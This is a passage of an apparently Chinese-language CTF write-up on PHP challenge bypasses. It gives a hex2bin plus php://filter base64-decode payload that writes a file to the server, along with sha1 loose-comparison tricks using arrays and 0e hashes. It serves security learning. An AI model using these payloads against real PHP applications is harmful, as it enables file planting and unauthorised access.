 ```Plain Text
        die('Sorry'); 
    } 
} 
else{<!-- --> 
    die('hacker'); 
} 

?>


```
```Plain Text
跟上面差不多知识。
但是有正则匹配了，
if(!preg_match("/.*p.*h.*p.*/i",$str)){<!-- -->

```
```Plain Text
#构造
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
#访问1.php后查看源代码获得flag

```
# 10.sha1（）
哈希和MD5差不多，看MD5

**列子1**

```Plain Text
<?php 
highlight_file(__FILE__); 

include("flag.php"); 

if(isset($_POST['v1']) && isset($_GET['v2'])){<!-- --> 
    $v1 = $_POST['v1']; 
    $v2 = $_GET['v2']; 
    if(sha1($v1)==sha1($v2)){<!-- --> 
        echo $flag; 
    } 
} 
?>


```
```Plain Text
考察点：hash比较缺陷

出题人出的有些失误，没有判断v1与v2的值，所以直接传post: v1=a get: v2=a就可以了,也可以用数组绕过


```
与md5一样，可利用0e科学计数法达到伪相等
